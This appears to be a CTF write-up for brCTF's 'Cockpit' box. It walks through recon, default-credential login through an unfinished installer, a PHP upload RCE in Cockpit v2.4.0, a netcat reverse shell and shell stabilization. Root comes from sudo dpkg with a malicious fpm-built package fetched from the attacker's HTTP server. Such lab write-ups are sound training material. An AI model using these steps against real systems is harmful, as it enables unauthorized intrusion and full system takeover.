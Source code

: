 ```yaml
---
title: Cockpit @ brCTF
date: 2024-12-26 11:33:00 +0800
categories: [CTF, brCTF ]
tags: [writeups, upload bypass, web ]
math: true
mermaid: true
media_subpath: /assets/posts/2024-12-26-cockpit
image:
  path: preview.png
---
```


## Cockpit - brCTF

## Information Gathering/Reconnaissance
As usual we fire up our favorite network mapper (nmap) and perform some basic recon. We can see that we have only port 80 (http) open.
`nmap -sC -sV -oN cockpit.nmap 10.0.160.145`
```
Nmap scan report for 10.0.160.145
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-title: Cockpit
|_Requested resource was /auth/login?to=%2F

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second stage of our recon we checkout the application running on port `80` from our browser. <br>
We are greeted with a homepage.... interesting!
![Cockpit Homepage](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/homepage.png)

Next we try to find out what other pages are available on our target. We employ the servies of our directory bruteforcing tool (feroxbuster) or an other webfuzzer. <br>
`feroxbuster -u http://10.0.160.145 -w /raft-medium-wordlists.txt`
```
302      GET        0l        0w        0c http://10.0.160.145/ => http://10.0.160.145/auth/login?to=%2F
302      GET        0l        0w        0c http://10.0.160.145/system => http://10.0.160.145/auth/login?to=%2Fsystem
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^
302      GET        0l        0w        0c http://10.0.160.145/?????? => http://10.0.160.145/auth/login?to=%2F%3F%253F%253F%253F%253F%253F%3D
400      GET        7l       11w      157c http://10.0.160.145/100%sexy
400      GET        7l       11w      157c http://10.0.160.145/100%angel
400      GET        7l       11w      157c http://10.0.160.145/100%bitch
400      GET        7l       11w      157c http://10.0.160.145/100%me
400      GET        7l       11w      157c http://10.0.160.145/100%cute
400      GET        7l       11w      157c http://10.0.160.145/100%love
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^&*()
302      GET        0l        0w        0c http://10.0.160.145/content => http://10.0.160.145/auth/login?to=%2Fcontent
400      GET        7l       11w      157c http://10.0.160.145/100%cool
301      GET        7l       11w      169c http://10.0.160.145/install => http://10.0.160.145/install/
404      GET        0l        0w        0c http://10.0.160.145/austin101
```

## Exploitation
Something interesting the results above. We find a `/install` endpoint. <br>
After visiting this page in the browser we realized that the system administrator setup cockpit application without fully installing. Nice! we can abuse this. <br> After visiting this endpoint cockpit will be installed and will setup an account with default logins.
![Cockpit Install Page](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/install_the_software.png "a title")

Using the default logins obtained on installation we can login to the cockpit application.
![Cockpit Login Page](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/login_with_default_creds.png "a title")

Successful Login attempt and we a greeted with the application dashboard. From there we can do a little recon to find out the version of cockpit running. From the image below, `cockpit v2.4.0` is found to be running.
![Cockpit Dashboard Page](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/cockpit_version_info.png "a title")

As a hacker google should be one of your cherished tools. Using the google search engine we can search for publicly available exploit for `cockpit v2.4.0`. <br> We find a publicly disclosed exploitation process [here](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
![Public Exploit](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/google_vuln.png "a title")

From the steps provided on the [website](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
1. We must first craft our malicious php script.
![exploit code](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/exploit_code.png "a title")

2. Head over to the assest page on cockpit and upload our malicious php script.
![uploading asset](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/asset_upload.png "a title")
![uploading php script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/uploading_php_script.png "a title")

3. Click on the options icons after fully uploding the asset and select `copy asset link` from the popup.
![uploading php script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/asset_options.png "a title")

4. Open a new browser tab and paste the link there. Hold up! one last thing to do before execution. After pasting the link remove `/http:` from the url and now you can execute.

Finally! we now have RCE on the target and we can get a shell on netcat.<br>
We first start by running our netcat listener.
`nc -lnvp 8989`
![uploading php script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/listening_on_netcat.png "a title")

Now we can send execute command on our malicious php web page to get a shell on our listener.<br>
![netcat payload shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/netcat_payload.png)

Boom we get a connection on our listener.
![netcat rev shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/recieved_nc_connection.png)

## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

## Privilege Escalation
We first check our privileges.
`sudo -l`
![PE vector](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/priv_escalation.png)

Doing a search on for dpkg on [gtfobins](https://gtfobins.github.io/gtfobins/dpkg/#sudo)
![gfobins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/gtfobins_privesc.png)

Now the way this is going to work is that we would build a malcious debian package and then we try installing the package which will run our malicious code embedded in the package.<br>
Steps to building malicious package.
1. Install fpm: `sudo apt install ruby && sudo gem install fpm`
2. Build package with fpm: ```TF=$(mktemp -d) &&
echo 'exec /bin/sh' > $TF/x.sh &&
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF```
![mal deb package](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/creating_mal_packgae.png)

We now have our malicious package on our host and we can now transfer to our target.<br>
Start your python server: `python3 -m http.server 8000`
![python transfer](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/python_server_for_mal_package.png)

Download the malicious package on your target.<br>
NB: Make sure you are in a writable directory like `/tmp`. <br>

![python transfer download](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/downloading_mal_package_from_attacker_server.png) 

Now we can execute and get root access.<br>
![execute code](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/exec_command_priv_root.png)<br>
We are now root!!! :smiley: <br>
![iamroot](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/i_am_root.png)